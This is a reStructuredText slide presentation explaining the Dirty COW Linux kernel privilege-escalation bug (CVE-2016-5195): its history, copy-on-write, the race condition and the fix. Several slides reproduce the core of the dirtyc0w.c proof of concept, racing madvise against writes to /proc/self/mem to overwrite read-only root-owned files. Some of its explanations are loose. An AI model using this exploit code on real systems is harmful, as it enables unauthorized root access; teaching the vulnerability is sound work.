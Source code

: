 :title: Dirty Cow (CVE-2016-5195)
:author: BabuSubashChandar C
:skip-help: true
:data-transition-duration: 1500
:css: dirty-cow.css
:auto-console: true

Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability in
the Linux Kernel.

----

.. raw:: html

    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.6.3/css/font-awesome.min.css">

:data-scale: 10
:id: title

**Dirty COW Issue**
===================

BabuSubashChandar C

babusubashchandar@zilogic.com

.. note::

    Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability
    in the Linux Kernel. An ancient bug, as per the words of Linus
    Torvalds, recently fixed after several attacks found "in the
    wild".

----


:data-y: r5000
:data-scale: 1

Terminology
===========

issue == bug == exploit == vulnerability

----

:data-x: r1400
:data-y: r0
:data-rotate: 30

Who found this bug?
===================

* Phil Oester was a security researcher discovered this bug "in the wild".
* Before him, Linus Torvalds found it.

----

:data-rotate: r30

When was it found?
==================

* First reported in 1st Aug 2005 by Linus Torvalds.
* Recently by Phil Oester during an HTTP packet capture.

----

:id: affected

Are we affected?
================

**Yes!**

----

:id: fixed

Is it fixed?
============

**Yes!**

* On 18th Oct 2016, the bug was fixed.

.. line-block::

   Refer Dirty COW wiki for more details on Fixed Kernel versions.

----

**Branding**
============

.. image:: dirtycow.png
    :height: 300
    :align: center

* A logo for the bug.
* Twitter page for the same.
* An online shop.
* A github account.

----

:id: what_is_dirty_cow_issue

**Mooooooove Up**
=================

* A normal user can level up to become a privileged user.
* An attacker with an account in the system can hijack the system
  without any permission problem.

.. note::

   * Dirty COW is a nickname of the privilege-escalation vulnerability
     potentially allows any malicious code, to gain root-level access
     and completely hijack the device.

   * The programming bug gets its name from the copy-on-write
     mechanism in the Linux kernel.

   * The implementation of COW in Kernel had a flaw, the programs can
     set up a race condition to tamper with what should be a read-only
     root-owned executable mapped into memory.

   * This flaw can be exploited to take advantage on any device, which
     includes android phones, whose base is Linux Kernel. Pandemic
     across architectures.

----

:id: cow

What is COW?
============

* Resource allocation optimization strategy.
* Made multiple accesses to same resource possible.
* Without the knowledge of the accessing parties.
* Allows modification on private copy only when there is an attempt.
* And it checks for the privileges of the accessing party.

.. note::

   * Consider a furniture showroom showcases a chair.
   * Two persons are asking for the chair.
   * Unless a person orders the chair, a copy of the chair will not be
     created.
   * This is CoW and it is done automagically by OS.

----

:id: dirty_cow_explained

**Dirty COW Explained**
=======================

* Kernel hole was exploited by injecting race condition.
* Escalates the privilege of a normal user to write to a read-only file.
* Anyone can write to a root file.

.. note::

   * Now consider one of the person is repeatedly ordering and
     declining the order.
   * Now the showroom owner got crazy and gives away the chair to a
     person who didn't pay for the chair.
   * This is exactly what happens in Dirty CoW.
   * The pages allocated via CoW are marked dirty and indicated to OS
     as not needed. But the same has been written to the disk when
     asked to write by creating another copy.

----

:id: demo

**Demo**
========

.. raw:: html

    <script type="text/javascript" src="https://asciinema.org/a/5k2dcyn60gnmonffb5l72jrap.js" id="asciicast-5k2dcyn60gnmonffb5l72jrap" async></script>

----

PoC of Exploit
==============

* There are a lot of proof-of-concepts out in the internet to
  demonstrate the exploit.
* Ours is a read-only write exploit.

----

dirtyc0w.c | main function
==========================

.. code:: c

   f=open(argv[1],O_RDONLY);
   fstat(f,&st);
   name=argv[1];

   map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
   printf("mmap %zx\n\n",(uintptr_t) map);

   pthread_create(&pth1,NULL,madviseThread,argv[1]);
   pthread_create(&pth2,NULL,procselfmemThread,argv[2]);

   pthread_join(pth1,NULL);
   pthread_join(pth2,NULL);

----

dirtyc0w.c | madvise thread
===========================

.. code:: c

   for(i=0;i<100000000;i++)
   {
          c+=madvise(map,100,MADV_DONTNEED);
   }

----

dirtyc0w.c | procselfmem thread
===============================

.. code:: c

   int f=open("/proc/self/mem",O_RDWR);
   int i,c=0;

   for(i=0;i<100000000;i++) {
          lseek(f,(uintptr_t) map,SEEK_SET);
          c+=write(f,str,strlen(str));
   }

----

:id: running_apart

Running apart
=============

.. table::

   ==============   =====================
   madivse thread   procselfmem thread
   ==============   =====================
   madvise()        ---
   ---              write()
   madvise()        ---
   ---              write()
   madvise()        ---
   ---              write()
   ...              ...
   ==============   =====================

----

:id: synchronised

Synchronised
============

.. table::

   ==============   =====================
   madivse thread   procselfmem thread
   ==============   =====================
   madvise()        ---
   ---              write()
   madvise()        ---
   ---              write()
   ---              write()
   madvise()        write()
   ==============   =====================

----


How it is fixed
===============

* By detecting the first COW using a flag in the Kernel code.

----

**Questions**
=============

----

:id: references

References
==========

* https://dirtycow.ninja - official website.
* http://www.theregister.co.uk/2016/10/21/linux_privilege_escalation_hole/
* http://thehackernews.com/2016/10/linux-kernel-exploit.html
* https://www.martijnlibbrecht.nu/2/ - explanation of the PoC.

----

:id: followme

**Follow me**
=============

.. raw:: html

    <div class="followme">
    <table align="center">
    <tr><td>
    <i class="fa fa-linkedin-square"></i></td><td><p>babuenir</p></td></tr>
    <tr><td><i class="fa fa-twitter"></i></td><td><p>@babuenir</p></td></tr>
    <tr><td><i class="fa fa-github"></i></td><td><p>babuenir</p></td></tr></table></div>
